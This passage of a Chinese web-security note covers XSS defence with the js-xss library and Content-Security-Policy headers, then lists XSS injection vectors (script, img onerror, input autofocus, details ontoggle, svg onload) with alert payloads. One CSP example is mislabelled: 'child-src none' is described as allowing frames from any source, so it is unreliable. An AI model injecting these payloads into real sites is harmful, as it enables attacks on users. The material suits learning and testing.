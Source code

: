 #### 使用 npm 包来简化操作

[xss 文档](https://github.com/leizongmin/js-xss/blob/master/README.zh.md)

### CSP 内容安全策略

CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。

通常可以通过两种方式来开启 CSP：

- 设置 HTTP Header 中的 Content-Security-Policy
- 设置 meta 标签的方式 \`<meta http-equiv="Content-Security-Policy">`

以设置 HTTP Header 来举例

- 只允许加载本站资源

```
Content-Security-Policy: default-src ‘self’
```

- 图片只允许加载 HTTPS 协议

```markdown
Content-Security-Policy: img-src https://*
 

- 允许加载任何来源框架

```
Content-Security-Policy: child-src 'none'
```

[CSP](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP) ( Content Security Policy )

## XSS 注入方法

参考链接：https://xz.aliyun.com/t/4067

### `<scirpt>`

    <scirpt>alert("xss");</script>

### \`<img>`

    \<img src=1 onerror=alert("xss");>

### \`<input>`

    \<input onfocus="alert('xss');">

    竞争焦点，从而触发onblur事件
    \<input onblur=alert("xss") autofocus><input autofocus>

    通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
    \<input onfocus="alert('xss');" autofocus>

### \`<details>`

    \<details ontoggle="alert('xss');">

    使用open属性触发ontoggle事件，无需用户去触发
    \<details open ontoggle="alert('xss');">

### \`<svg>`

    \<svg onload=alert("xss");>

```
